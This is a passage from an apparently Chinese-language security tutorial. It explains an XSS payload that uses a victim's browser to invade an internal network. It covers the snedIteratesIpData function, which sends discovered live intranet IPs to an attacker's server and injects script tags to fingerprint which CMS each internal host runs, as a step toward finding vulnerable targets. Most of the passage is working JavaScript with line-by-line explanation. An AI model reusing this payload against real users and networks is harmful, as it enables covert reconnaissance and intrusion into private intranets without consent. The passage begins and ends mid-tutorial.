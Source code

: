 ![](/images/use-xss-automation-invade-intranet/5.png)

console.log打印了当前的函数，当然你也可以使用setTimeout(当前的函数名(),5000);来达到此效果，但是此方法对于匿名函数没有用。因为匿名函数是不存在名称的。如果学了递归的朋友们，应该会很好理解。
说通俗点就是：每隔5秒钟运行此函数，直到所有img标签全部判断完成，才进行下一步的操作。

## 0x05确认内网存活主机的CMS信息：

上一节我们说到闭包里的if条件里true执行的snedIteratesIpData函数，现在我们就来说说这个函数里面是什么内容：
```javascript
function snedIteratesIpData(ip){
    if(deathIpLIst.length == 254){
        return false;
    }
    stage(2)
    ip = ip.join("-")
    ipAjax = new XMLHttpRequest();
    ipAjax.onreadystatechange = function(){
        if(ipAjax.readyState == 4 && ipAjax.status == 200){
            var cmsPath = JSON.parse(ipAjax.responseText).path;
            for(var key in cmsPath){
                for(var i = 0;i < survivalIpLIst.length;i++){
                    var scriptTag = document.createElement("script");
                    scriptTag.setAttribute("src","http://" + survivalIpLIst[i] + cmsPath[key]);
                    scriptTag.setAttribute("data-ipadder",survivalIpLIst[i]);
                    scriptTag.setAttribute("data-cmsinfo",key);
                    scriptTag.setAttribute("onload","javascript:vulnerabilityIpList(this)");
                    document.getElementsByTagName("body")[0].appendChild(scriptTag);
                }
            }
        }
    }
    ipAjax.open('POST', snedIteratesIpUrl, false);
    ipAjax.setRequestHeader("Content-type","application/x-www-form-urlencoded");
    ipAjax.send('iplist='+ip+'&onlystring='+onlyString);
}
```
为什么要在函数开始前写上if函数呢，因为在上一节中的闭包里存在一个bug。就是当所有内网IP中都没有开放80端口且不存在站点的情况下，deathIpLIst.length会为254。而survivalIpLIst.length会为0。那`deathIpLIst.length + survivalIpLIst.length == 254`的条件是为true的。为了避免此bug的发生，我们在snedIteratesIpData函数里加入
```javascript
if(deathIpLIst.length == 254){
    return false;
}
```
当deathIpLIst.length等于254的时候，返回false。不再向下执行。因为所有代码的构架就是A调用B，C调用A，D调用C。当C返回false的时候，D是不会执行的。从上面的代码可以看到，返回false后。下面的代码都不会运行的。
现在我们来看下`ip = ip.join("-")`这条代码的意思，是当内网中存在两条（包括两条）以上的IP地址时，使用join函数，传给服务端。方便服务端的接受及查看。服务端的反馈就像下面这样：

![](/images/use-xss-automation-invade-intranet/6.png)

面来说说ajax请求的代码：
```javascript
ipAjax = new XMLHttpRequest();
ipAjax.onreadystatechange = function(){
    if(ipAjax.readyState == 4 && ipAjax.status == 200){
        var cmsPath = JSON.parse(ipAjax.responseText).path;
        for(var key in cmsPath){
            for(var i = 0;i < survivalIpLIst.length;i++){
                var scriptTag = document.createElement("script");
                scriptTag.setAttribute("src","http://" + survivalIpLIst[i] + cmsPath[key]);
                scriptTag.setAttribute("data-ipadder",survivalIpLIst[i]);
                scriptTag.setAttribute("data-cmsinfo",key);
                scriptTag.setAttribute("onload","javascript:vulnerabilityIpList(this)");
```